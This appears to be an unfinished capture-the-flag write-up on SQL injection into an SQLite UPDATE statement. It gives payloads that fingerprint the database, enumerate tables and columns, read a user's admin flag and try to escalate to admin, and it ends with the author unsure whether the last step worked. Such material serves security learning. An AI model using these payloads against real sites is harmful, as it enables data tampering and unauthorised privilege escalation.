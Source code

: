 ```yaml
---
ai_date: '2025-04-27 05:13:21'
ai_summary: SQL Injection vulnerability found, allowing for data manipulation and
  privilege escalation through various queries.
ai_tags:
- sql
- 注入
- privilege-escalation
created: 2024-06-09T16:20
updated: 2024-08-05T02:01
---
```


> I was working on this website and wanted you to check it out. The code is a bit of a mess, since it's only an extremely early version. In fact, you're the very first user, with ID 1!
> PLEASE NOTE: What you do should, in theory, not affect other solvers. Please let us know if this is not the case.

---

SQL Injection huh, and with `UPDATE`.

Make a guess for the statement.

```sql
UPDATE table SET name="<input>" WHERE id='1'
```

```sql
UPDATE table SET name=""||(SELECT sqlite_version())||"" WHERE id='1'
```

We can determine that it is sqlite.

```sql
UPDATE table SET name=""||(SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('users'))||""
```

```
" || (SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%') || "

## users,roles_e25832119caec3e7

" || (SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='roles_aa673201a75d3012') || "

## CREATE TABLE roles_aa673201a75d3012 (id INTEGER, admin INTEGER, FOREIGN KEY(id) REFERENCES users(id) ON UPDATE CASCADE).

" || (SELECT id||","||admin FROM roles_2d69a85c4fb75907 WHERE id='1') || "

## 1,0

" || (UPDATE roles_e25832119caec3e7 SET admin=1) || "


", admin="1"
```

Welp, idk